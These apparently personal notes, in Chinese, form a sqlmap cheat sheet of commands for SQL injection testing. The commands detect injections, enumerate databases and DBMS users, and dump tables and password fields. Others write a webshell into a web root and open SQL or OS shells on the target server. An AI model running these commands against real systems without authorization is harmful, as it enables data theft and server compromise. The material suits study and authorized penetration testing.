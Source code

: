 # sqlmap 笔记

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**官网**
- https://github.com/sqlmapproject/sqlmap

**文章**
- [Sqlmap使用教程[个人笔记精华整理] | 漏洞人生](http://www.vuln.cn/1992)

---

## 常见操作

**检测注入**
```bash
sqlmap -u URL                                           # 判断注入
sqlmap -u URL -p id                                     # 指定参数注入
sqlmap -u URL --cookie="xxxxx"                          # 带 cookie 注入
sqlmap -u URL --batch                                   # 不要请求用户输入,使用默认行为
sqlmap -r aaa.txt                                       # post 型注入

sqlmap -u URL --os "Windows"                            # 指定操作系统
sqlmap -u URL --dbms mysql --level 3                    # 指定数据库类型为 mysql,级别为 3(共 5 级,级别越高,检测越全面)
sqlmap -u URL --dbms mysql --risk 3                     # 指定执行测试的风险(1-3, 默认 1) 1会测试大部分的测试语句,2会增加基于事件的测试语句,3会增加 OR 语句的 SQL 注入测试
sqlmap -u URL --dbms mysql --prefix "%df%27" --technique U -v 3                 # 宽字节检测
sqlmap -u URL --proxy "socks5://127.0.0.1:1080"         # 代理注入测试
sqlmap -u URL --referer "http://www.google.com"         # 模拟来源
sqlmap -u URL --user-agent "Googlebot/2.1(+http://www.googlebot.com/bot.html)"  # 模拟谷歌蜘蛛
```

**获取信息**
```bash
sqlmap -u URL --current-db          # 获取当前数据库
sqlmap -u URL --dbs                 # 枚举所有数据库
sqlmap -u URL -f                    # 检查 DBMS 版本
sqlmap -u URL --is-dba              # 判断当前用户是否是 dba
sqlmap -u URL --users               # 列出数据库管理系统用户
sqlmap -u URL --privileges          # 枚举 DBMS 用户权限
sqlmap -u URL --passwords           # 获取当前数据库密码

sqlmap -u URL -D DATABASE --tables  # 获取数据库表
sqlmap -u URL -D DATABASE -T TABLES --columns           # 获取指定表的列名
sqlmap -u URL -D DATABASE -T TABLES -C COLUMNS --dump   # 获取指定表的列名
sqlmap -u URL -dbms mysql -level 3 -D test -T admin -C "username,password" -dump    # dump 出字段 username 与 password 中的数据
sqlmap -u URL --dump-all            # 列出所有数据库,所有表内容
```

**搜索字段**
```bash
sqlmap -r "c:\tools\request.txt" -dbms mysql -D dedecms --search -C admin,password  # 在 dedecms 数据库中搜索字段 admin 或者 password.
```

**读取与写入文件**

首先找需要网站的物理路径,其次需要有可写或可读权限.

- -file-read=RFILE 从后端的数据库管理系统文件系统读取文件 (物理路径)
- -file-write=WFILE 编辑后端的数据库管理系统文件系统上的本地文件 (mssql xp_shell)
- -file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径
```bash
sqlmap -r aaa.txt --file-dest "e:\php\htdocs\dvwa\inc\include\1.php" --file-write "f:\webshell\1112.php"

# 注 : mysql 不支持列目录,仅支持读取单个文件.sqlserver 可以列目录,不能读写文件,但需要一个 xp_dirtree 函数
```

**提权**
```bash
sqlmap -u URL --sql-shell           # 获取一个 sql-shell 会话
sqlmap -u URL --os-shell            # 获取一个 os-shell 会话
sqlmap -u URL --os-cmd=ipconfig     # 在注入点直接执行命令
sqlmap -d "mssql://sa:sql123456@ip:1433/master" --os-shell  # 知道数据库密码后提权成为交互式系统shell
```
